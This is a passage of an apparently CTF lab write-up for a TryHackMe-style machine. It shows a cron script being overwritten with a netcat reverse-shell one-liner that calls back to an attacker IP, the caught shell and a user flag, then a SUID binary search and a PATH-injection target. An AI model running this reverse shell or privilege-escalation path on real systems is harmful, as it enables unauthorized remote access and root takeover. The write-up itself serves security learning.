 ```
www-data@ubuntu:/tmp$ cat /opt/helloworld.sh
cat /opt/helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
www-data@ubuntu:/tmp$

```
And Now just replace it 
```
$ cat /opt/helloworld.sh
#!/bin/bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.26.216 1338 >/tmp/f" >> /opt/helloworld.sh
└─# nc -lvnp 1338
listening on [any] 1338 ...
connect to [10.4.26.216] from (UNKNOWN) [10.10.211.183] 41996
sh: 0: can't access tty; job control turned off
$ whoami
archangel
$ 
archangel@ubuntu:~/secret$ ls
ls
backup  user2.txt
archangel@ubuntu:~/secret$ cat user2.txt
cat user2.txt
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}

```

# From User to root
I use SUID
```
archangel@ubuntu:~/secret$ find / -type f -perm /4000 -ls 2>/dev/null
find / -type f -perm /4000 -ls 2>/dev/null
   392217     40 -rwsr-xr-x   1 root     root        40344 Mar 23  2019 /usr/bin/newgrp
   396413     76 -rwsr-xr-x   1 root     root        75824 Mar 23  2019 /usr/bin/gpasswd
   393011     76 -rwsr-xr-x   1 root     root        76496 Mar 23  2019 /usr/bin/chfn
   395021     44 -rwsr-xr-x   1 root     root        44528 Mar 23  2019 /usr/bin/chsh
   396417     60 -rwsr-xr-x   1 root     root        59640 Mar 23  2019 /usr/bin/passwd
   406571     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   396823    148 -rwsr-xr-x   1 root     root       149080 Sep 23  2020 /usr/bin/sudo
   392437     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   524345    428 -rwsr-xr-x   1 root     root         436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   396700     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   652899     28 -rwsr-xr-x   1 root     root          26696 Sep 17  2020 /bin/umount
   652831     44 -rwsr-xr-x   1 root     root          44664 Mar 23  2019 /bin/su
   652862     44 -rwsr-xr-x   1 root     root          43088 Sep 17  2020 /bin/mount
   660690     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   652934     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
  1053235     20 -rwsr-xr-x   1 root     root          16904 Nov 18  2020 /home/archangel/secret/backup
```
I see this `/home/archangel/secret/backup` and it's a Path injection
I open the backup elf file using `strings`.
I see 
`cp /home/user/archangel/myfiles/* /opt/backupfiles`

